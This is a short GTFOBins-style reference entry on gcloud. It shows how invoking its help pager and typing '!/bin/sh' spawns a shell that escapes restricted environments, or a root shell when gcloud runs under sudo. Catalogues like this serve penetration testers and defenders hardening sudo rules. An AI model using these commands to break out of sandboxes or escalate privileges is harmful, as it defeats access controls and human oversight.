 # GTFOBin: gcloud

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
gcloud help
!/bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
sudo gcloud help
!/bin/sh
```